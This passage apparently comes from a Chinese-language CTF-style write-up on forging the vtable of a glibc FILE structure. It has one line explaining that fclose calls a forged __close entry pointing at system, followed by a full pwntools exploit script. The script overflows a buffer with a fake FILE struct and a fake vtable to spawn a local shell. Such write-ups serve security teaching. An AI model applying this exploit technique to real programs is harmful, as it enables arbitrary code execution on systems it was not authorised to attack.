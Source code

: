 ![3](/picture/FILE_related/vtable伪造/3.png)


漏洞触发方式：执行fclose时，调用了vtable上的\_\_close（被伪造位system_plt的地址）



最终exp

```python
from pwn import*
context.log_level = 'debug'
p = process('./example')
elf = ELF('./example')
system = elf.plt['system']

buf2 = 0x6010c0 
fake_vtable_ptr = buf2+0x200

fake_file = '/bin/sh\x00'.ljust(0x88,'\x00')+p64(buf2+0x400)
fake_file = fake_file.ljust(0xd8,'\x00')+p64(fake_vtable_ptr)

fake_vtable = '\x00'*0x88+p64(system)

payload = 'a'*0x20+p64(buf2)+p64(0)*3
payload += fake_file.ljust(0x200,'\x00')
payload += fake_vtable
#gdb.attach(p,'b *0x40063a')
p.sendline(payload)

p.interactive()
```
